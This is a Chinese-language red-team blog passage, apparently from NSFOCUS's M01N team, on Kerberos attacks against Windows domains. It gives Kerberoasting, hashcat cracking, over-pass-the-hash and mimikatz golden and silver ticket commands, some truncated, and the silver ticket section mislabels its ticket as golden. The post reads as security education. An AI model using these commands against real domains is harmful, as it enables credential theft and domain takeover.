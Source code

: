在微软 Kerberos 协议实现中，任何经过认证的域用户可以获取服务票据。服务票据通过服务账户
hash加密，而服务账户一种是关联到机器账户，一种是关联到域用户账户。机器账户密码复杂爆破难度高，通常寻找域用户账户关联的服务来进行爆破

  

使用 Empire 中的 Invoke-Kerberoast 可以自动获取域用户账户关联服务的SPN并获取票据

Invoke-kerberoast –outputformat hashcat | fl

  

使用 hashcat 破解票据

hashcat64.exe –m 13100 hash.txt pass.txt –force

  

 **over-pass-the-hash  **

获取到用户的 hash 后，利用用户 hash 和 kerberos 协议认证系统，与 pass-the-hash 不同之处在于，pass-the-hash
是用用户 hash 和 NTLM 协议认证系统

  

利用方式和 pass-the-hash 的相同

  

 **黄金票据  **

在知道 krbtgt 用户 hash 后，可以制作黄金票据，不在向 KDC 申请

利用 mimikatz 生成黄金票据

kerberos::purge

kerberos::golden /admin:administrator /domain:college.com
/sid:S-1-5-21-3792756393-3386897061-2081858749 /krbtgt:4c

  

 **白银票据**

在知道服务用户 hash 后，可以制作白银票据，不在向 KDC 申请利用 mimikatz 生成黄金票据

kerberos::golden /user:username /id:1106 /domain:domainname
/sid:S-1-5-21-1473643419-774954089-2222329127 /target:s

  

参考

https://www.kerberos.org/software/tutorial.html

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805095043.png)

 **绿盟科技M01N战队** 专注于Red
Team、APT等高级攻击技术、战术及威胁研究，涉及Web安全、终端安全、AD安全、云安全等相关领域。通过研判现网攻击技术发展方向，以攻促防，为风险识别及威胁对抗提供决策支撑，全面提升安全防护能力。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805095044.png)

 **M01N Team**
